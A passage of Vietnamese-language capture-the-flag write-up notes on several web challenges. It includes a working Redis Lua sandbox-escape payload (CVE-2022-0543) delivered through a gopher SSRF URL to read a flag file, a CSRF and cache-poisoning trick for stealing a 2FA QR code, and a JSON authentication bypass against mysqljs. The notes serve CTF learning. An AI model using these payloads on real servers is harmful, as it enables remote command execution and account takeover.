Thử overwrite file `app.js` bằng gopher + redis thì với nodejs app cần restart server thì nó mới load lại thay đổi cho nên không ăn thua. Thử tiếp RCE cũng không được. Step bro am stuck!!.


**Exploit**:

Biết được redis có hàm eval: https://redis.io/commands/eval/

redis lua sandbox escape rce(CVE-2022-0543): https://developpaper.com/cve-2022-0543-redis-lua-sandbox-escape-rce/

RCE này không đến từ gopher hay redis mà đến từ linux từ nhà phân phối như Ubuntu/Debian/CentOS khi packaging redis, nó lỡ để lại 1 object package ở Lua sanbox. 
```lua
luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);
```
Kẻ tấn công có thể dùng method của object này để load function từ dynamic link library liblua, từ đó escape sandbox và thực thi commands. Cơ bản là thế, nên đọc thêm các link trên.

**Payload**:
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("uname -a", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Đấm vào gopher và url encode thôi:
```
gopher://127.0.0.1:6379/_eval%20%27local%20io_l%20%3D%20package.loadlib%28%22%2Fusr%2Flib%2Fx86_64-linux-gnu%2Fliblua5.1.so.0%22%2C%20%22luaopen_io%22%29%3B%20local%20io%20%3D%20io_l%28%29%3B%20local%20f%20%3D%20io.popen%28%22cat%20/root/flag.txt%22%2C%20%22r%22%29%3B%20local%20res%20%3D%20f%3Aread%28%22%2Aa%22%29%3B%20f%3Aclose%28%29%3B%20return%20res%27%200
```

**flag**: `pass`

## Genesis Wallet
**Write up**: https://h1pmnh.github.io/post/ctf-htb-cyber-apolcalypse-web-genesis-wallet/

CSRF rest 2FA QRcode của admin và reverse proxy varnish dùng để caching cached lại page reset 2FA đó, truy cập đến trang này(edit lại Host: 127.0.0.1 fit với hash) và trộm QRcode thành công.

## Spiky Tamagotchy

**Write up**: https://gist.github.com/pich4ya/c033a1d147f8eb0348c10ed1a44fc2dc

Nodejs SQL injection trên prepare statement khi đầu vào input không được kiểm tra type dẫn đến auth bypass.

**root cause**: https://github.com/mysqljs/mysql/blob/master/Readme.md#escaping-query-values
```
Objects are turned into `key = 'val'` pairs for each enumerable property on the object. If the property's value is a function, it is skipped; if the property's value is an object, toString() is called on it and the returned value is used.
```

**input bypass authentication**: Thấy lần đầu SQLi trên prepare statement.
```json
{"username": "admin", "password": {"password": 1}}
```
**the prepared statement**:
```
SELECT username FROM users WHERE username = ? AND password = ?
```
